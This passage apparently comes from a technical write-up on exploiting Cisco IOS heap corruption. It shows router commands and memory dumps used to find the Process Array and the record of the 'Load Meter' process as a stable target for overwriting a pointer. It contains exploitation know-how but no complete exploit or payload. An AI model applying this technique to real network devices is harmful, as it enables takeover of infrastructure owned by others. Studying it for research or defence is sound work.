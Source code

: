 The only thing we need now is a place to write a pointer to. As with many  
other pointer based exploits, we are looking for a fairly static location  
in memory to do this. Such a static location (changes per IOS image) is the  
process stack of standard processes loaded right after startup. But how do  
we find it?  
  
In the IOS memory list, there is an element called the "Process Array".  
This is a list of pointers - one for every process currently running in  
IOS. You can find it's location by issuing a "show memory processor  
allocating-process" command (output trimmed):  
```  
radio#show memory processor allocating-process  
  
          Processor memory  
  
 Address Bytes Prev.   Next    Ref  Alloc Proc Alloc PC  What  
258AD20   1504 0       258B32C   1  *Init*     20D62F0   List Elements  
258B32C   3004 258AD20 258BF14   1  *Init*     20D6316   List  
...  
258F998   1032 258F914 258FDCC   1  *Init*     20E5108   Process Array  
258FDCC   1000 258F998 25901E0   1  Load Meter 20E54BA   Process Stack  
25901E0    488 258FDCC 25903F4   1  Load Meter 20E54CC   Process  
25903F4    128 25901E0 25904A0   1  Load Meter 20DD1CE   Process Events  
```  
This "Process Array" can be displayed by the "show memory" command:  
```  
radio#show memory 0x258F998  
0258F990:                   AB1234CD FFFFFFFE          +.4M...~  
0258F9A0: 00000000 020E50B6 020E5108 0258FDCC  ......P6..Q..X}L  
0258F9B0: 0258F928 80000206 00000001 020E1778  .Xy(...........x  
0258F9C0: 00000000 00000028 02590208 025D74C0  .......(.Y...]t@  
0258F9D0: 02596F3C 02598208 025A0A04 025A2F34  .Yo<.Y...Z...Z/4  
0258F9E0: 025AC1FC 025BD554 025BE920 025BFD2C  .ZA|.[UT.[i .[},  
0258F9F0: 025E6FF0 025E949C 025EA95C 025EC484  .^op.^...^)\.^D.  
0258FA00: 025EF404 0262F628 026310DC 02632FD8  .^t..bv(.c.\.c/X  
0258FA10: 02634350 02635634 0263F7A8 026418C0  .cCP.cV4.cw(.d.@  
0258FA20: 026435FC 026475E0 025D7A38 026507E8  .d5|.du`.]z8.e.h  
0258FA30: 026527DC 02652AF4 02657200 02657518  .e'\.e*t.er..eu.  
0258FA40: 02657830 02657B48 02657E60 0269DCFC  .ex0.e{H.e~`.i\|  
0258FA50: 0269EFE0 026A02C4 025DD870 00000000  .io`.j.D.]Xp....  
0258FA60: 00000000 025C3358 026695EC 0266A370  .....\3X.f.l.f#p  
```  
While you also see the already discussed block header format in action now,  
the interesting information starts at 0x0258F9C4. Here, you find the number  
of processes currently running on IOS. They are ordered by their process  
ID. What we are looking for is a process that gets executed every once in a  
while. The reason for this is, if we modify something in the process data  
structures, we don't want the process being active at this point in time,  
so that the location we are overwriting is static. For this reason, yours  
truly picked the "Load Meter" process, which is there to measure the system  
load and is fired off about every 30 seconds. Let's get the PID of  
"Load Meter":  
```  
radio#show processes cpu  
CPU utilization for five seconds: 2%/0%; one minute: 3%; five minutes: 3%  
 PID  Runtime(ms)  Invoked  uSecs    5Sec   1Min   5Min TTY Process  
   1          80      1765     45   0.00%  0.00%  0.00%   0 Load Meter  
```  
Well, conveniently, this process has PID 1. Now, we check the memory  
location the "Process Array" points to. Yours truly calls this memory  
location "process record", since it seems to contain everything IOS needs  
to know about the process. The first two entries in the record are:  
```  
radio#sh mem 0x02590208  
02590200:                   0258FDF4 025901AC          .X}t.Y.,  
```